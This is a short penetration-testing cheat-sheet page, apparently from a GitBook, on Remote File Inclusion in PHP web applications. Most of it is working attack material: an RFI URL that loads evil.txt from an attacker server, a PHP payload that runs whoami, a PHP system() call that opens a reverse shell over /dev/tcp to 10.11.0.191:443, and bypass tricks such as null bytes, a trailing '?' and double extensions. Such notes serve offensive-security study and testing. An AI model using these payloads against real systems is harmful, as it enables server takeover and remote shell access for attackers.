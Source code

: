```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the victim even if it is not available locally.
---
```


# Remote File Inclusion

### Example

The following details some basic RFI exploitation examples:\`

`http://acme.com/index.php?page=http://attackerserver.com/evil.txt`\
\
This vulnerability can be easily exploited by either using a PHP shell available from `/usr/share/webshells/php`&#x20;

Alternatively, the following lists a few ways to test for RFI:

`<?php echo shell_exec("whoami");?>`

`<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>`

### Notes

As stated briefly in the [LFI section](local-file-inclusion-lfi.md)

It is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`

If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.

A dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`
